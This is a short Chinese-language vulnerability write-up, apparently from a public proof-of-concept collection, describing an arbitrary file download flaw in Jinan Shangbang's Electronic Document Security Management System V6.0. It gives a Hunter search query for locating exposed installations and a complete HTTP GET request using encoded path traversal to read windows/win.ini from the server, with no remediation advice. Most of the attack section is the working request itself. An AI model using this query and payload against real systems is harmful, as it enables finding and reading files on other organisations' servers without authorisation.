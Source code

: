 # 电子文档安全管理系统 V6.0存在任意文件下载

# 一、漏洞简介
济南上邦电子科技有限公司电子文档安全管理系统 V6.0存在任意文件下载

# 二、影响版本
+ 济南上邦电子科技有限公司电子文档安全管理系统 V6.0

# 三、资产测绘
+ hunter`web.body="docsafe/docsafe.nocache.js"`
+ 特征

![1699199045776-f8cbf631-7614-41f1-9f78-33e297fad57f.png](./img/TTDVgI4zPNgSGRd0/1699199045776-f8cbf631-7614-41f1-9f78-33e297fad57f-841313.png)

# 四、漏洞复现
```plain
GET /resources/backup//..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5cwindows/win.ini HTTP/1.1
Host: xx.xx.xx.xx
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:109.0) Gecko/20100101 Firefox/119.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
Te: trailers
Connection: close
```

![1699199071902-432a9c06-5ba9-4b9e-9ded-b947c4bd6ddd.png](./img/TTDVgI4zPNgSGRd0/1699199071902-432a9c06-5ba9-4b9e-9ded-b947c4bd6ddd-986909.png)



> 更新: 2024-02-29 23:55:47  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/up1n14t1s2wcmfqp>